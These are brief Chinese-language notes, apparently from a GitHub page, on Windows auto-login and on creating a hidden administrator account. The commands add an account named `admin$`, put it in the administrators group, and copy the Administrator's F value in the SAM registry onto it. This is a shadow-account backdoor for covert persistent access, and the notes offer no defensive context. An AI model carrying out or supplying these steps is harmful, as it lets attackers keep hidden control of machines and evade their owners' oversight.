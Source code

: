 # Windows

### 自动登录设置

```angular2html
control userpasswords2

```

### Windows注册表添加账户

> 使用命令 `net user admin$ admin /add`添加账户
> 使用命令 `net localgroup administrators admin$ /add`添加进管理员组
> 使用命令 `regedit`打开注册表，跳转到 `HKEY_LOACL_MACHINE\SAM\SAM` 发现没有展开项，需要修改权限为 `当前用户-完全控制`
> 然后将继续展开 `Domains\Account\Users` 找到添加的账户导出注册表，找到对应制的F替换成Administrator账户的F值，导出
>